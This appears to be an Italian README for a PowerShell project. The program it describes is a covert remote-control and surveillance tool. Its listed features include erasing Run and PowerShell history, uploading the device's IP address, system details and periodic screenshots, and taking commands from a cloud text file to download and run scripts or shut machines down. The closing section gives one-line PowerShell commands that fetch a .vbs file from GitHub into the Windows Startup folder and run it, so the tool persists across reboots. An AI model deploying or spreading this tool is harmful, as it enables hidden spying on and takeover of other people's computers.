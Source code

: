  FUNZIONALITÀ:
  - cancella cronologia esegui e cronologia powershell
  - carica un file con l'indirizzo ip del dispositivo
  - carica un file con alcune informazioni sul dispositivo
  - carica ogni "interval" secondi lo screenshot dello schermo
  - controllo ogni "command_control" screenshot un file .txt di comando


 FILE DI SUPPORTO:
  - file .json di configurazione per impostare il programma appena avviato
  - file .txt di comando per gestire il programma durante l'esecuzione
  - file .exe salvato nella cartella di startup che esegue il programma all'avvio del computer


 COMANDI:
  - startScreen: avvia l'operazione di creazione e salvataggio screenshot
  - pauseScreen: mette in pausa l'operazione di creazione e salvataggio sreenshot
  - stopScript: termina l'esecuzione del programma
  - clearFiles: elimina tutti i file del programma contenuti nel computer
  - runCode: esegue un file esterno tramite un job in asincrono
	    - <nomeFile>: scarica il file <nomeFile> dalla cartella scripts del cloud
	    - numberCode <n>: scarica il file dall'n-esimo url del file .json
  - offPC: spegne il computer
  - restartPC: riavvia il computer


 SINTASSI COMANDI: <destinatario> <comando> <n>
  - destinatario: nome del computer a cui far eseguire il comando
	    - NOME-ES: solo il computer NOME-ES
	    - !NOME-ES: tutti i computer eccetto NOME-ES
	    - ALL: ogni dispositivo
  - comando: comando da eseguire
  - n: quante volte eseguire il comando
	    - n > 0: il comando viene eseguito n volte e al termine il file .txt viene sovrascritto da un file vuoto
	    - n = 0 o "": il comando viene eseguito all'infinito




COMANDO PER IL DOWNLOAD DEL FILE .vbs NELLA CARTELLA DI AVVIO DEL COMPUTER (comando da eseuire all'interno di Windows Run: Win + r)
 - powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/simonemichele05/PowershellProgetto/main/avvio.vbs -OutFile ($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"


COMANDO PER L'AVVIO DEL FILE .vbs NELLA CARTELLA DI AVVIO DEL COMPUTER (il comando in realtà è superfluo: il file verrà comunque eseguito all'avvio del computer)
 - powershell -Command ".($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"


COMANDO PER IL DOWNLOAD E PER L'ESECUZIONE DEL FILE .vbs (PROBLEMA: il comando è troppo lungo e non può essere eseguito)
 - powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/simonemichele05/PowershellProgetto/main/avvio.vbs -OutFile ($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs'); .($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"
